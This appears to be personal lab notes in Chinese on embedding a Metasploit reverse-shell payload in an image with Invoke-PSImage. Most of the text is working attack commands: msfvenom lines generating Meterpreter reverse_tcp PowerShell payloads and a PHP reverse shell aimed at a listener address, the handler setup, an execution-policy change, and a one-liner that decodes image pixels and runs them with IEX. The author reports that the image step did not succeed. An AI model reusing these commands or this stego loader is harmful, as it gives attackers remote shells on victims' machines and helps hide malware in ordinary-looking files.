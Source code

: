 
[Invoke-PSImage利用分析](https://www.4hou.com/technology/9472.html)

[msf使用参考](https://blog.csdn.net/nzjdsds/article/details/82929265)

fail

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img.ps1 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img2.ps1   

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img3.ps1  --smallest  

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img4.ps1  --smallest   
```

success

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f psh-reflection  -o img.ps1 --smallest```

打开msf

```
use exploit/multi/handler
set LHOST 192.168.255.153
set LPORT 2333 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

payload的选择取决于生成被控端文件用了什么模块，名字都是一样的

msfpayload php/reverse_php LHOST=x.x.x.x LPORT=2333 R > re.php

set PAYLOAD php/reverse_php

msf生成的payload执行可以反弹,但无法附加到生成的图片中执行

如果 powershell.ps1 不能被执行 ，修改权限：在powershell中执行 set-ExecutionPolicy RemoteSigned


打开受控端powershell,执行

```Import-Module C:\Users\Administrator\Desktop\Invoke-PSImage.ps1```
```Invoke-PSImage -Script C:\Users\Administrator\Desktop\img5.ps1 -Image C:\Users\Administrator\Desktop\q.jpg -Out C:\Users\Administrator\Desktop\ss.png```

回显

```
sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap("C:\Users\Lee-PC\Desktop\ss.png");$o=a Byte[] 2960;(0..4)|%{foreach($x in(0..591)){$p=$g.GetPixel($x,$_);$o[$_*592+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..2778]))
```

在受控端powershell执行回显也会反弹，但没有复现成功

